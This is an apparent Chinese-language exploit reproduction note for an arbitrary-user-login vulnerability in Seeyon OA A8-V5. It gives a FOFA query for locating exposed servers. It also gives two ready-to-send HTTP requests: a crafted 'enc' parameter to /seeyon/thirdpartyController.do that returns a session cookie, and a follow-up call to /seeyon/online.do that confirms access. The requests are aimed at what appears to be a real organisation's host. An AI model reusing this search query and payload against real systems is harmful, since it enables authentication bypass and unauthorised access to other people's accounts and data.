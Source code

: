 ## 致远OA A8-V5 任意用户登录漏洞

### 搜索语法

```
fofa:app="致远互联-OA"
```

### 漏洞复现

1.访问接口 `/seeyon/thirdpartyController.do`

```
GET /seeyon/thirdpartyController.do?method=access&enc=TT5uZnR0YmhmL21qb2wvY2N0L3BxZm8nTj4uODM4NDE0MzEyNDM0NTg1OTI3OSdVPjo6Ojo6Ojo6Ojo6Ojo= HTTP/1.1
Host: oam.rongyi.com
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

![image-20240611202402836](https://newoss2.oss-cn-beijing.aliyuncs.com/202406112024930.png)

可以在响应包中得到一个`JSESSIONID`，在携带`JSESSIONID` 访问`/seeyon/online.do`接口进行验证。

```
GET /seeyon/online.do?method=showOnlineUser HTTP/1.1
Host: oam.rongyi.com
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=94E4773735662ACB34A67255290B8CF1; loginPageURL=; avatarImageUrl=-7273032013234748168
Connection: close
```

![image-20240611202654203](https://newoss2.oss-cn-beijing.aliyuncs.com/202406112026302.png)

相关文章：[致远OA A8-V5 任意用户登录漏洞分析 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/13743?time__1311=mqmxnQKCqGqQq0KDsD7mG7WH9p4fxlkBbD&alichlgref=https%3A%2F%2Fwww.bing.com%2F)